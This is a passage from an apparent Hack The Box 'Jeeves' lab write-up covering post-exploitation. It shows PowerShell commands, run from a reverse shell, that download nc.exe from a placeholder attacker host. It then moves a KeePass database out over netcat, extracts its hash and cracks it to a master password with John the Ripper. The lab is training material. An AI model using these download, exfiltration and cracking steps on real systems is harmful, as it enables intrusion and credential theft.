 {% highlight powershell %}
# Run inside the reverse shell: 
powershell -c '(new-object System.Net.WebClient).DownloadFile("http://IP/nc.exe", "C:\Windows\Temp\nc.exe")'
# OR
powershell -c 'Invoke-WebRequest "http://IP/nc.exe" -OutFile "C:\Windows\Temp\nc.exe"' 
{% endhighlight %}

> Note: Don't forget to start a web server before you actually try to download a file.

Thanks to **netcat**, we are able to transfer the .kdbx file into our filesystem. We can then proceed to generate a hash with **keepass2john**.
```console
root@EdgeOfNight:/tmp# keepass2john CEH.kdbx 
CEH:$keepass$*2*6000*222*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
``` 

This hash can be then cracked with usual programs like **Hashcat** or **JohnTheRipper**.
```console
root@EdgeOfNight:/tmp# john --format="keepass" --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64 OpenSSL])
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (CEH)
1g 0:00:01:12 DONE (2018-05-22 19:56) 0.01371g/s 754.2p/s 754.2c/s 754.2C/s moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The master password of the Keepass manager is `moonshine1`! By installing Keepass2 (*apt-get install keepass2*), we can view the .kdbx file and see all saved up passwords.
The preview looks like this:

<a href="/img/blog/htb-jeeves/htb-jeeves-05.png" target="_blank"><img class="centerImgLarge" src="/img/blog/htb-jeeves/htb-jeeves-05.png"></a>
